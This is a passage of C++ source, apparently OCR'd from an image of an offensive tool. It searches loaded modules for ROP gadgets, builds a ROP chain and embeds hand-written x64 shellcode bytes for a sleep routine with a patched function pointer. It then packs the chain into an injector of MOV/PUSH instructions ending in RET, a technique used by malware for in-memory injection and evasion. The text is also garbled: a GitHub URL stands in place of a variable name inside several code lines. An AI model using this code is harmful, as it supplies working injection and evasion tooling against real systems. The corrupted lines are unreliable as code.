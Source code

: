```cpp
                else if (memcmpFunc(moduleMath + x, POP_R8__RET, 3) == 0 && !found(https://github.com/Idov31/FunctionStomping)) // POP R8, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 4 * 8);
                    found(https://github.com/Idov31/FunctionStomping) = TRUE;
                }
            }
            moduleMath += memInfo.RegionSize;
        }
        moduleIndex++;
    }

#ifdef _DEBUG
    printfFunc("--- Printing ROP chain\n");
    for (int kk = 1; kk <= sizeof(ropChain); kk++) {

        printfFunc("%02x", ropChain[kk - 1]);

        if (kk % 8 != 0 && kk % 4 == 0) {
            printfFunc("`");

        }
        if (kk % 8 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /*
        Now, if the chain was found, we would still need to pack everything into 
        the injector

        The size of the injector should be the number of chunks * the size of a MOV + PUSH instruction + 1 RET
    */
#define SLEEP_ROUTINE_SIZE 42
    UCHAR injector[N_ROP_GADGETS * MOV_SPACE + 1] = { 0 };

    UCHAR SleepRoutine[] = { 
        0x48, 0x31, 0xc9, 0xb9, 0x10, 0x27, 0x00, 0x00, 0x57, 0x48, 
        0x89, 0xe7, 0x48, 0x83, 0xe4, 0xf0, 0x48, 0x83, 0xec, 0x40, 
        0x49, 0xbf, 
                
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        0x41, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x40, 0x48, 0x89, 
        0xfc, 0x5f, 0x90 
    };

    _Hton((ULONG64)SleepFunc, SleepRoutine, 22);

    for (int i = 0; i < N_ROP_GADGETS; i++) {
        _ConstructPushWithBytes(ropChain, injector, (N_ROP_GADGETS - i - 1) * 8, i * MOV_SPACE);
    }
    injector[N_ROP_GADGETS * MOV_SPACE] = 0xc3; // RET

#ifdef _DEBUG
    printfFunc("--- Printing ROP injector\n");
    for (int kk = 1; kk <= sizeof(injector); kk++) {

```